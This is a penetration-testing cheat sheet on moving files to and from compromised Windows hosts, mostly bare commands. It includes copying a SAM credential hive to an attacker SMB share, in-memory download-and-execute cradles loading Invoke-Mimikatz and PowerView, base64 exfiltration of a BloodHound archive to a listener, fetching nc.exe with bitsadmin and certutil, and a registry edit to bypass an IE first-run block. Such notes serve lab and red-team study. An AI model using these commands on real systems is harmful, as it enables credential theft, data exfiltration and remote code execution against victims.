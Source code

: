 # Windows File Transfer

## Smb Server / Mount share

```
smbserver.py -smb2support -username gust -password guest share /root/htb

#Mount 
net use x: \\<IP>\share /user:guest <password>
#Download
cmd /c "copy file.txt X:\"
move sam.save \\10.10.15.16\CompData

$pass = convertto-securestring 'staphy' -AsPlainText -Force
$pass = convertto-securestring 'staphy' -AsPlainText -Force
New-PSDrive -Name "staphy" -PSProvider "FileSystem" -Root "\\<IP>\Public"
```



## PowerShell

### PowerShell Downloads

```
#System.Net.WebClient class can be used to download a file over HTTP.
(New-Object System.Net.WebClient).DownloadFile('http://<IP>:PORT/file.EXT',"C:\Outfile.EXT")

#From PowerShell 3.0 Invoke-WebRequest but slower,
#Alias iwr, curl, wget can be used instead of Invoke-WebRequest
Invoke-WebRequest http://<IP>:PORT/file.Ext -OutFile file.Ext

#Execute Payload directly into memory using Invoke-Expression
#Alias iex
IEX (New-Object Net-WebClient).DownloadString('http://<IP>:PORT/Invoke-Mimikatz.ps1')

#IEX also accepts pipeline input
Invoke-WebRequest https://<IP>:PORT/Invoke-Mimikatz.ps1 | iex
```

{% hint style="danger" %}
There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download.

This can be bypassed using the parameter `-UseBasicParsing`

```
Invoke-WebRequest https://<ip>/PowerView.ps1 | iex
Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/P ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand


# FIX
Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | iex
Invoke-CheckLocalAdminAccess

ComputerName IsAdmin
------------ -------
localhost      False

# with administrative access to the machine, we can disable Internet Explorer’s First Run customization
reg add "HKLM\SOFTWARE\Microsoft\Internet Explorer\Main" /f /v DisableFirstRunCustomize /t REG_DWORD /d 2
```
{% endhint %}

> Powershell download cradles that do not observe Internet Explorer’s first-run check can also be used. Harmj0y has compiled an extensive list of PowerShell download cradles [here](https://gist.github.com/HarmJ0y/bb48307ffa663256e239). It is worth gaining familiarity with them and their individual nuances, such as not observing a proxy or touching a disk to select the appropriate one for the situation.

### PowerShell Uploads

```
#Invoke-WebRequest or Invoke-RestMethod
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'c:/Bloodhound.zip' -Encoding Byte))
Invoke-WebRequest -Uri http://<IP>:433 -Method POST -Body $b64

#after catching 64data with ncat
echo <base64> | base64 -d -w 0 > bloodhound.zip
```

## Bitadmin

### Download

```
#Background Intelligent Transfer Service
#Can download from HTTP sites and SMB shares
bitsadmin /transfer n http://<IP>/nc.exe C:\Temp\nc.exe

#PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.
Import-Module bitstransfer;Start-BitsTransfer -Source "http://<IP>/nc.exe" -Destination "C:\Temp\nc.exe"
```

### Upload

```
start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql        
```

## Certutil

```
#available in all Windows versions
#the Antimalware Scan Interface (AMSI) currently detects this as malicious certutil usage.
certutil.exe -verifyctl -split -f http://<IP>/nc.exe
```

